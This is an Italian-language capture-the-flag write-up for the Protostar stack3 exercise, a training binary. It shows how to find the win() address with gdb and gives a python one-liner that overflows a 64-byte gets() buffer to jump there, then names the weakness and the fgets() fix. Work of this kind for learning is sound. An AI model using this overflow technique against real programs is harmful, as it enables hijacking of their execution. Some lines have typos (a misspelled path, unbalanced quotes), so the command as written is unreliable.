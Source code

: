 # Protostar_stack 3 - Stack-based buffer overflow

## Obiettivo della sfida
Impostare `fp = win` a tempo di esecuzione, questo implica la modifica del flusso di esecuzione per provocare il salto del codice alla funzione win().

## Raccolta informazioni
Il programma accetta solo input da tastiera o da un altro processo. Stack3 è simile alle precedenti ma la difficoltà aggiunta sta nel fatto che non sappiamo il numero da iniettare per fare eseguire _win()_ quindi bisogna trovarlo.

## Strategia di attacco
Utilizzare il debugger **gdb** e **objdump** per ottenere informazioni sul file.  
Il nostro obiettivo è recuperare l'indirizzo di win() a partire dal binario di _stack3_, una volta trovato l'indizzo lo mettiamo alla fine della stringa di 64 byte(ricordarsi sempre dell'architettura little endian).
### Recuperare l'indirizzo di win()
Utilizziamo gdb
```bash
> gdb -q /opt/protostar/bin/stack3
(gdb) > p win
$1 = {void(void)} 0x8048424 <win> 
#0x8048424 indirizzo di win
```
### Istruzioni da eseguire
```bash
> 'python -c 'print "a" * 64 + "\x24\x84\x04\x08"'' | /opt/protostart/bin/stack3
# sfida vinta
```
## Debolezze
1. `gets()` non effettua controlli sul buffer overflow

## Mitigazione
1. sostituire la funzione`gets()` con `fgets()`